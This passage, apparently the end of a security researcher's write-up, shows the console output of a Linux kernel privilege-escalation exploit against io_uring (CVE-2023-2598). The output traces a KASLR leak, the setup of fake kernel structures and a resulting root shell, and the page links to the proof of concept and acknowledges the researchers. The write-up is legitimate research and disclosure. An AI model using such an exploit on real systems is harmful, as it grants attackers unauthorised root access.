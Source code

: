 ```
memfd: 0, page: 5500 at virt_addr: 0x424700157c, reading 266240000 bytes
memfd: 0, page: 6000 at virt_addr: 0x4247001770, reading 266240000 bytes
memfd: 0, page: 6500 at virt_addr: 0x4247001964, reading 266240000 bytes
memfd: 0, page: 7000 at virt_addr: 0x4247001b58, reading 266240000 bytes
memfd: 0, page: 7500 at virt_addr: 0x4247001d4c, reading 266240000 bytes
memfd: 0, page: 8000 at virt_addr: 0x4247001f40, reading 266240000 bytes
memfd: 0, page: 8500 at virt_addr: 0x4247002134, reading 266240000 bytes
memfd: 0, page: 9000 at virt_addr: 0x4247002328, reading 266240000 bytes
memfd: 0, page: 9500 at virt_addr: 0x424700251c, reading 266240000 bytes
memfd: 0, page: 10000 at virt_addr: 0x4247002710, reading 266240000 bytes
memfd: 0, page: 10500 at virt_addr: 0x4247002904, reading 266240000 bytes
memfd: 0, page: 11000 at virt_addr: 0x4247002af8, reading 266240000 bytes
memfd: 0, page: 11500 at virt_addr: 0x4247002cec, reading 266240000 bytes
memfd: 0, page: 12000 at virt_addr: 0x4247002ee0, reading 266240000 bytes
memfd: 0, page: 12500 at virt_addr: 0x42470030d4, reading 266240000 bytes
Found value 0xdeadbeefdeadbeef at offset 0x21c8
Socket object starts at offset 0x2000
kaslr_leak: 0xffffffffb09503f0
kaslr_base: 0xffffffffafe00000
found socket is socket number 1950
our struct sock object starts at 0xffff9817ff400000
fake proto structure set up at 0xffff9817ff400578
args at 0xffff9817ff400728
argv at 0xffff9817ff400750
subprocess_info set up at beginning of sock at 0xffff9817ff400000
calling ioctl...
/bin/sh: can't access tty; job control turned off
/ # id
uid=0(root) gid=0(root)
/ # w00t w00t
```
You can find my Proof of Concept - [here](https://github.com/ysanatomic/io_uring_LPE-CVE-2023-2598).

## Acknowledgements <a name="acknowledgements"></a>
[Tobias Holl](https://tholl.xyz/), for outstanding research, discovering the vulnerability and PoC'ing it. Took the idea from him to use the the pacing rate of the socket as an egg :)

[Valentina Palmiotti (chompie)](https://chompie.rip/Home), for her amazing introduction to the `io_uring` subsystem in her article, [Put an io_uring on it - Exploiting the Linux Kernel](https://chompie.rip/Blog+Posts/Put+an+io_uring+on+it+-+Exploiting+the+Linux+Kernel#io_uring%20What%20is%20it?).
